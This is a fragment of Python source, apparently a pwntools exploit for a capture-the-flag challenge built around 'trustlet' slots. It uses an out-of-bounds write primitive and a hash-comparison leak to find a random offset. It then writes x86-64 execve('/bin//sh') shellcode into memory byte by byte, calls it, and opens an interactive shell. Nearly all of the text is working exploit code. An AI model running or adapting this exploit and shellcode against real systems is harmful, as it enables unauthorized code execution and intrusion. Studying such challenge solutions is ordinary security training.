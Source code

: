 ```python
    return written_data


def write_shellcode(s):
    progress = log.progress("Writing byte")
    for j, byte in enumerate(s):
        progress.status(byte)
        for i in range(2000):
            byte_written = write(1, byte, -0x4000+j, rand_num)
            progress.status("%s (%d/%d) wrote %s attempts: (%d/2000)" % (
                byte, j, len(s), byte_written, i
            ))
            if byte_written == byte:
                break
        else:
            current_byte.failure("Failed to write byte '%s'" % byte)
            raise
    progress.success("Wrote shellcode")


def get_diff_page_index(h1, h2):
    assert len(h1) == len(h2)
    assert h1 != h2

    progress = log.progress("Checking hashes")
    
    for i in range(len(h1)):
        if h1[i] != h2[i]:
            progress.success("Found differing hash, index %d" % i)
            return i
    else:
        progress.failure("Failed to find differing hash")


num_hashes = 0x7fd8

add_trustlet(0)
hashes = get_hashes(0, num_hashes)
assert hashes == get_hashes(0, num_hashes), "Verify they're the same"

add_trustlet(1)

# Write to the previous type 0 trustlet
write(1, "A"*0x30, -0x8000000, 0)
new_hashes = get_hashes(0, num_hashes)
rand_num = get_diff_page_index(hashes, new_hashes)

write_shellcode("1\366VH\270/bin//shPT_\367\356\260;\17\5")

# Call the shellcode
command("c")
trustlet_index(1)
call_type("g")

p.interactive()
```
